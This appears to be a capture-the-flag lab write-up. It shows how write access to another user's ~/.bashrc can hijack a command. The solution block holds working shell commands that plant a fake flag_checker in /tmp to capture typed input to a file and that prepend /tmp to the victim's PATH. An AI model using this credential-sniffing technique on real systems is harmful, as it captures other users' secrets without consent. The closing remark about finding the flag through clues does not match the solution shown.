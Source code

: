 ### Challenge

To collect the flag by exploiting  write access to Zardus’s `~/.bashrc` to hijack the `flag_checker` command

### Thought Process

In this challenge Zardus will run a command called `flag_checker` and manually type the flag into it. I need to intercept this by creating a fake `flag_checker` that runs first. So firstly, I'll have to create a script that will intercept the flag. Then make the shell look in `/tmp` first, so it will find my `flag_checker` before the real one

### Solution

```bash
hacker@shenanigans~sniffing-input:~$ echo -e '#!/bin/bash\necho "Type the flag"\nread flag\necho "$flag" > /tmp/captured_flag\necho "$flag"' > /tmp/flag_checker
hacker@shenanigans~sniffing-input:~$ chmod +x /tmp/flag_checker
hacker@shenanigans~sniffing-input:~$ echo 'export PATH=/tmp:$PATH' >> /home/zardus/.bashrc
hacker@shenanigans~sniffing-input:~$ /challenge/victim
Username: zardus
Password: *********
zardus@shenanigans~sniffing-input:~$ flag_checker
Type the flag
************************************************************pwn.college{Ed5WxMkCXRA0PgUS7GXAfO8nCEs.QX1MTM3EDLyMjN0czW}
zardus@shenanigans~sniffing-input:~$ exit
logout
```

Upon exection, I got the next clue. After a series of such clues which were found using the commands `cat`, `ls` and `ls -a`, I got the flag

